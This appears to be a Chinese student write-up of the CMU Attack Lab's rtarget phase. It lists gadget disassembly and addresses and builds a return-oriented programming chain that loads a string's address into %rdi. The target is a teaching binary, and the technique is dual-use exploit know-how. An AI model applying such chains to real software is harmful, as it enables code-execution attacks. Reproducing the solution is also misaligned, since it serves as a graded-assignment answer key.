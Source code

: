 如何把准确的地址传送到%rdi寄存器中呢?当然是提前计算好偏移量,然后用一个寄存器承载这个偏移量,再一点一点的把他搬运到%rdi当中啦

下面是寻找一条完整的通路的全过程(已经将函数从farm中的形式换为了rtarget中的形式,使得地址一目了然),在这里面"--->"表示我倒序寻找通路时思维的前进试探,慢慢打通每一个节点,是寄存器转移顺序的反向,箭头后面表示的是Gadget的起始地址.

```
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq  
  ----- %rsp-->%rax----0x401a06------------

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

  ----%rax-->%rdi----0x4019a2--------
  这样子就把%rsp的地址丢到%rdi当中了
  执行完getbuf时%rsp= 0x5561dca8
  字符串应该是存在栈顶+相对位置

00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq  
----这个lea能把%rsi作为偏移量,计算好后再返回到%rdi中就好了---0x4019d6

所以我们就要想办法往%rsi中丢值,因为找不到pop %rsi的片段,只能从其他地方入手

0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq   
  
  ---%ecx--->%esi----0x401a13
 -----
  想试验下78 和c9会不会影响执行程序,不会影响,照样能运行
00000000004019e8 <addval_113>:
  4019e8:	8d 87 89 ce 78 c9    	lea    -0x36873177(%rdi),%eax
  4019ee:	c3                   	retq 
-----0x4019ea------

一步步往前找,每找到一个就看一下能不能通过pop得到该值

0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq   

---%edx--->%ecx---0x401a69----

00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq  

  ---%edx--->%eax---0x4019dd---
  
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq  
  ----pop %rax---0x4019cc----
  
找到了一条通路,所以我们就可以通过pop %rax的值来吧那个偏移量送到%rsi中,最后再把%rdi给更新了
就能够定位字符串的位置了

```

